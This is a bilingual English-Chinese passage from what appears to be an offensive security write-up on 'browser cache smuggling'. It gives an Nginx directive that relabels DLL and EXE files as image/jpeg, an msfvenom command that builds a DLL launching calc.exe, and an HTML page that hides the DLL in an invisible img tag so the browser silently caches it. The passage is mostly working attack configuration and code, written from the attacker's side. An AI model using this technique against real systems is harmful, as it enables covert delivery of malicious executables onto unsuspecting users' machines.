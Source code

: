 As an attacker, we can override these values. Remember, our goal is to force the download of either a DLL or an EXE file. To do so, we’ll simply have to change the content type related to the DLL and EXE files from application/x-msdos-program to image/jpeg. This is simply done with the following line in your Nginx configuration:  
作为攻击者，我们可以覆盖这些值。请记住，我们的目标是强制下载 DLL 或 EXE 文件。为此，我们只需将与 DLL 和 EXE 文件相关的内容类型从 application/x-msdos-program 更改为 image/jpeg。只需在 Nginx 配置中使用以下行即可完成此操作：

```bash
types { } default_type image/jpeg;
```

This nullifies the in-memory mime type mapping, and then sets the default content type to “image/jpg” for unknown types (i.e. all files, since we nuked the mappings first). Enclosing this in a “location” block which only matches your payload(s) will achieve the desired effect without turning everything into an “image”. See part III below for the complete config in context.  
这将使内存中的 MIME 类型映射无效，然后将未知类型（即所有文件，因为我们首先对映射进行了核击）的默认内容类型设置为“image/jpg”。将其包含在仅与您的有效载荷匹配的“位置”块中，将达到预期的效果，而不会将所有内容变成“图像”。有关上下文中的完整配置，请参阅下面的第三部分。

Next, we will have to generate two things:  
接下来，我们必须生成两件事：

-   A DLL, in this case a simple one that will run calc.exe generated via MSFVenom:  
    DLL，在本例中是一个简单的 DLL，它将运行通过 MSFVenom 生成的 calc.exe：

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f dll > calc.dll
```

-   An HTML page in which the DLL is embedded in a img tag:  
    DLL 嵌入在 img 标记中的 HTML 页面：

```html
<html>
        <body>
                <h1>Browser cache smuggling</h1>
                <img src="calc.dll" style="display: none;"></img>
        </body>
</html>
```

We then empty Firefox’s cache, reload the HTML page and see that the file was downloaded:  
然后，我们清空 Firefox 的缓存，重新加载 HTML 页面，并看到文件已下载：

![](assets/1701827279-170387a5267488f6d51d557535eaa75e.png)
